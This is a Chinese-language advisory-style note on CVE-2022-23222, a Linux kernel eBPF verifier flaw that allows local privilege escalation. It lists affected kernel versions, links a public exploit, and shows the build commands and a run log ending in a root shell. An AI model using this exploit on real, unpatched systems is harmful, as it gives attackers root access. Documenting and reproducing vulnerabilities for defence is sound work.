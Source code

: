 # 

# Linux eBPF权限提升漏洞 CVE-2022-23222

## 漏洞描述

Linux Kernel 是美国 Linux 基金会发布的开源操作系统 Linux 所使用的内核。Linux 内核是一种开源的类Unix 操作系统宏内核。整个 Linux 操作系统家族基于该内核部署在传统计算机平台（如个人计算机和服务器）。该漏洞是由于 Linux 内核的 BPF 验证器存在一个空指针漏洞，没有对 *_OR_NULL 指针类型进行限制，允许这些类型进行指针运算。攻击者可利用该漏洞在获得低权限的情况下，构造恶意数据执行空指针引用攻击，最终获取服务器 root 权限

## 漏洞影响

```
Linux 5.8 - 5.16（在5.10.92 / 5.15.15 / 5.16.1中修复）
```

## 漏洞复现

Exp：https://github.com/tr3ee/CVE-2022-23222

```
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```


